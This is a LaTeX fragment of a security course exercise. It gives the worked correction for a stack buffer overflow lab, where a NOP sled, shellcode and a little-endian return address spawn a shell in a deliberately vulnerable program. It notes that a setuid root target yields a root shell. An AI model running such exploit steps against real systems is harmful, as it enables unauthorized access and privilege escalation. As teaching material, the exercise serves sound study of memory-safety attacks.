 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[StackX64 Project]
\begin{correction}
\begin{lstlisting}[style=CStyle,language=Python,title=exploit\_phase3.py]
payload = nop_sled + shellcode + addr_bytes
sys.stdout.buffer.write(payload)
\end{lstlisting}

\textbf{3c)} Running the exploit:
\begin{lstlisting}[style=GDBStyle]
$ (python3 exploit_phase3.py ; cat) | ./stackx64
=== StackX64 - Vulnerable Program ===
[DEBUG] main() is at address:            0x401216
[DEBUG] secret_function() is at address:  0x4011d6
[DEBUG] vulnerable_function() is at:      0x4011f6

[DEBUG] buffer is at address: 0x7fffffffde10
[DEBUG] Enter your input:
[DEBUG] You entered: (garbage)
whoami
student
exit
\end{lstlisting}

\textbf{3d)} The x86-64 architecture uses \textbf{little-endian} byte order: the least significant byte is stored at the lowest address.

Conversion of \texttt{0x7fffffffde10} to little-endian:
\begin{lstlisting}[style=GDBStyle]
0x7fffffffde10 --> \x10\xde\xff\xff\xff\x7f\x00\x00
\end{lstlisting}

\begin{pointcle}
\begin{itemize}
    \item Shellcode injection grants the \textbf{same privileges} as the vulnerable program. If the program is \texttt{setuid root}, the attacker gets a root shell.
    \item The \texttt{; cat} after the Python script is essential: without it, \texttt{stdin} closes immediately and the shell cannot receive commands.
    \item Addresses in GDB may differ by a few bytes compared to direct execution. The NOP sled absorbs this difference.
\end{itemize}
\end{pointcle}

\end{correction}



\subsection*{Phase 4 -- NX protection and Return-to-libc \hfill\normalfont\textit{($\sim$35 min)}}


\end{exercice}
\end{document}

